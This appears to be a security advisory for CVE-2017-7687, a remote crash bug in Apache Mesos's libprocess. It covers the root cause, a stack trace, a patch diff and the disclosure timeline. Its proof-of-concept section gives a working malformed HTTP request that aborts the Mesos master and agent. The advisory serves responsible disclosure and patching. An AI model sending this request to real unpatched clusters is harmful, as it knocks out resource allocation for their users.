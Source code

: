 ```yaml
---
title: "Denial of Service Vulnerability in Libprocess (CVE-2017-7687)"
header:
  overlay_image: /assets/images/cve-2017-7687/header.jpg
  overlay_filter: 0.5
  caption: "Photo credit: Life is Strange Stills by Me"
excerpt: "A vulnerability in the libprocess dependency of Mesos allows a remote
attacker to cause a crash in any Mesos component that includes the library. The
bug resides in the libprocess message parsing functionality and causes the
application to call `abort()` ungracefully when handling malformed libprocess
messages."
tags:
  - vulnresearch
  - denial-of-service
---
```


Severity: High (CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:N/A:H/E:H/RC:C)

Vendor: Apache Software Foundation

Versions Affected:
Apache Mesos <= 1.3.0

## Description

A vulnerability in the libprocess dependency of Mesos allows a remote attacker
to cause a crash in any Mesos component that includes the library. The bug
resides in the libprocess message parsing functionality and causes the
application to call `abort()` ungracefully when handling malformed libprocess
messages.

The vulnerability affects the latest release (1.3.0) of Mesos as well as most
versions before. Importantly, it affects the Master and Agent services that are
exposed over the network. A malicious actor can easily deny allocation of
resources to applications with a single HTTP request to each component.

The bug is found in `parse()` at `libprocess/src/process.cpp` when attempting to
decode URL encoded paths. Particularly, the condition is triggered when trying
to handle the error created when decoding a malformed path.

```c
 795   // Decode possible percent-encoded 'to'.
 796   Try<string> decode = http::decode(request.url.path.substr(1, index));
 797
 798   if (decode.isError()) {
 799     return Failure("Failed to decode URL path: " + decode.get());
 800   }
```

If the `Try` object returned from `decode()` is of the error type, it tries to
return a `Failure` object instantiated with a string concatenated with the
results of the `get()` call found in `./3rdparty/stout/include/stout/try.hpp`.

```c
 73   const T& get() const
 74   {
 75     if (!data.isSome()) {
 76       assert(error_.isSome());
 77       ABORT("Try::get() but state == ERROR: " + error_.get().message);
 78     }
 79     return data.get();
 80   }
 81
 82   T& get()
 83   {
 84     return const_cast<T&>(static_cast<const Try&>(*this).get());
 85   }
```

Since the `Try` object can only represent one of two states: a value or an error
containing the error string, calling `get()` attempts to retrieve a value that
is not present resulting in the stout library aborting the program without
handling the exception. This stems from improper use of the stout API.

A partial stack trace at the time of the crash is as follows:

```shell
ABORT: (../../3rdparty/stout/include/stout/try.hpp:77): Try::get() but state == ERROR: Malformed % escape in 'mast%r': '%r'

Thread 10 "mesos-master" received signal SIGABRT, Aborted.
[Switching to Thread 0x7fffe4b16700 (LWP 19349)]
0x00007fffef3db428 in __GI_raise (sig=sig@entry=6) at ../sysdeps/unix/sysv/linux/raise.c:54
54    ../sysdeps/unix/sysv/linux/raise.c: No such file or directory.
(gdb) bt
#0  0x00007fffef3db428 in __GI_raise (sig=sig@entry=6) at ../sysdeps/unix/sysv/linux/raise.c:54
#1  0x00007fffef3dd02a in __GI_abort () at abort.c:89
#2  0x00005555555d6d7b in _Abort () at ../../3rdparty/stout/include/stout/abort.hpp:74
#3  0x00005555555d6da9 in _Abort () at ../../3rdparty/stout/include/stout/abort.hpp:80
#4  0x00005555555e3bf9 in Try<std::__cxx11::basic_string<char, std::char_traits<char>, std::allocator<char> >, Error>::get () at ../../3rdparty/stout/include/stout/try.hpp:77
#5  0x00005555555e57ce in Try<std::__cxx11::basic_string<char, std::char_traits<char>, std::allocator<char> >, Error>::get () at ../../3rdparty/stout/include/stout/try.hpp:84
#6  0x00007ffff6629577 in parse () at ../../../3rdparty/libprocess/src/process.cpp:799
#7  0x00007ffff663647e in process::ProcessManager::handle () at ../../../3rdparty/libprocess/src/process.cpp:2838
#8  0x00007ffff662a3d7 in process::internal::decode_recv () at ../../../3rdparty/libprocess/src/process.cpp:881
```

## Mitigation

The fix for this error is simple. Simply replace the errorenous `get()` call
with `error()`.

```diff
--- /work/mesos-1.3.0/3rdparty/libprocess/src/process.cpp    2017-06-15 22:21:42.413271006 +0000
+++ ../3rdparty/libprocess/src/process.cpp    2017-06-15 21:45:40.993271006 +0000
@@ -796,7 +796,7 @@
   Try<string> decode = http::decode(request.url.path.substr(1, index));

   if (decode.isError()) {
-    return Failure("Failed to decode URL path: " + decode.get());
+    return Failure("Failed to decode URL path: " + decode.error());
   }

   const UPID to(decode.get(), __address__);
```

## Proof of Concept

Sending the following HTTP request causes Mesos master and agent to crash.

```
POST /mast%r/api/v1
Host: 127.0.0.1:5050
User-Agent: libprocess/test
Content-type: application/json

{"type":"GET_VERSION"}'
```

## Credit

This issue was discovered by Lyon Yang (@l0Op3r) and Jeremy Heng (@nn\_amon).

## Timeline

* 12 June 2017 - Discovery of the vulnerability.
* 16 June 2017 - Reporting of the vulnerability to security@apache.org.
* 17 June 2017 - Git
  [commit](https://github.com/apache/mesos/commit/d526de0f735d41db13d85bad87cac49f8e525215)
  fixes the vulnerability upstream.
* 21 June 2017 - Acknowledgement of the vulnerability by the vendor.
* 22 June 2017 - CVE number assigned.
* 26 Sept 2017 - oss-security mailing list
  [email](http://seclists.org/oss-sec/2017/q3/539) sent by vendor.
